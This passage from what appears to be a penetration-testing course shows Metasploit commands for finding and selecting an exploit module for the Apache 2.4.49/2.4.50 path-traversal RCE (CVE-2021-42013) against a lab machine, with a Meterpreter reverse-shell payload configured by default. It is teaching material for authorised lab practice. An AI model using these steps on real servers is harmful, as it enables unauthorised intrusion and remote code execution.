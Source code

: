 1. Once VM Group 1 is started, follow the steps outlined in this section. Log in to VM #1 (BRUTE) via SSH and find the flag in the *george* user's home directory.

Answer

## 21.1.3. Exploit Modules

Now that we are acquainted with basic MSF usage and the usage of auxiliary modules, let's dig deeper into the business end of MSF: exploit modules.

Exploit modules most commonly contain exploit code for vulnerable applications and services. Metasploit contains over 2200 exploits at the time of this writing. Each was meticulously developed and tested, making MSF capable of successfully exploiting a wide variety of vulnerable services. These exploits are invoked in much the same way as auxiliary modules.

In this example, we'll leverage one of the exploit modules to get access to the target system WEB18. Let's assume we identified that the system runs an [Apache](https://www.apache.org/) 2.4.49 web server and is vulnerable to [*CVE-2021-42013*](https://nvd.nist.gov/vuln/detail/CVE-2021-42013) with a vulnerability scan. We'll attempt to use Metasploit and its exploit modules to exploit this vulnerability and get code execution.

Let's create a new workspace for this section and search Metasploit for modules related to "Apache 2.4.49".

```
msf6 auxiliary(scanner/ssh/ssh_login) > workspace -a exploits
[*] Added workspace: exploit
[*] Workspace: exploit

msf6 auxiliary(scanner/ssh/ssh_login) > search Apache 2.4.49

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_normalize_path_rce  2021-05-10       excellent  Yes    Apache 2.4.49/2.4.50 Traversal RCE
   1  auxiliary/scanner/http/apache_normalize_path  2021-05-10       normal     No     Apache 2.4.49/2.4.50 Traversal RCE scanner
```

> Listing 25 - Create a new workspace and search for Apache 2.4.49 modules

Listing 25 shows that our search resulted in two matching modules. Index 1 refers to an auxiliary module that checks if one or more target systems are vulnerable to the previously mentioned vulnerability. Index 0 refers to the corresponding exploit module.

Let's **use** the exploit module and enter **info** to review its description.

```
msf6 auxiliary(scanner/ssh/ssh_login) > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > info

       Name: Apache 2.4.49/2.4.50 Traversal RCE
     Module: exploit/multi/http/apache_normalize_path_rce
   Platform: Unix, Linux
       Arch: cmd, x64, x86
...
Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

```
